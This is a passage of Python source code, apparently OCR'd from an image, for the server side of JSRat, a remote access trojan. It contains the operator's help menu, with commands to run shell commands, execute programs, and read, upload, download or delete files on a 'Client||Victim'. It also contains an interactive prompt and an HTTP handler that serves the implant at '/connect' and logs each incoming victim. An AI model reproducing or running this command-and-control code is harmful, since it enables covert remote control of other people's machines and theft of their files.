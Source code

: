 		"""
  return jsrat_codeCMD

def print_jsrat_help():
  """
      Displays JSRat options for Server operator to interact w/Client||Victim
  """
  print
  print white(underline("JSRat Usage Options:"))
  print green("      CMD") + white(" => ") + green("Executes Provided Command")
  print green("      run") + white(" => ") + green("Run EXE or Script")
  print green("     read") + white(" => ") + green("Read File")
  print green("   upload") + white(" => ") + green("Upload File")
  print green(" download") + white(" => ") + green("Download File")
  print green("   delete") + white(" => ") + green("Delete File")
  print green("     help") + white(" => ") + green("Help Menu")
  print green("     exit") + white(" => ") + green("Exit Shell")
  print


def get_user_input():
  while True:
    usr_input = raw_input(red("$")+white("(")+blue("JSRat")+white(")")+red(">")+white(" "))
    if usr_input.strip() != "":
      break
    else:
      print
  return usr_input.strip()


class myHandler(BaseHTTPRequestHandler):
  """
      Custom handler so we can control how different web requests are processed
      Crude setup I threw together, but it works so get over it...
  """
  js_load_path = '/connect' # Base URL path to initialize things (value is overridden at server start)
  upload_path = "" # static so we can set/get as needed, since this isnt powershell...
  time_to_stop = False

  def log_message(self, format, *args):
    """ Custom Log Handler to Spit out on to stderr """
    return

  def do_GET(self):
    """
        Handle any GET requests coming into our server
    """
    content_type = "text/plain"
    response_message = jsrat()
    if self.js_load_path == self.path:
      good("Incoming JSRat Client: %s" % str(self.client_address[0]))
      if 'user-agent' in self.headers.keys() and self.headers['user-agent'].strip() != "":
      	good("User-Agent: %s" % self.headers['User-Agent'])
      print_jsrat_help()
